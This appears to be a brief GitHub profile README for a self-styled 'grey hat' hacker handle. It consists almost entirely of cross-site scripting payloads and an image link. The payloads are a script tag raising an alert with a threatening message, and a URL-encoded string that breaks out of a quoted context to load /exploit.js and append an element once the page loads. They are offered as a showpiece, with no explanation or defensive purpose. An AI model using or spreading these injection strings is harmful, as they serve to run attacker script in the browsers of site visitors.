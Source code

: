 ### <script>alert(Shinigami already here, get ready to death)</script>
<span style="color: green">/exploit.js%27%3Bwindow.addEventListener(%27DOMContentLoaded%27,function+y(){document.body.appendChild(x)})//</span>
![Image alt](https://github.com/NamelessShinigamiGreyHat/NamelessShinigamiGreyHat/raw/main/pic/main.png)
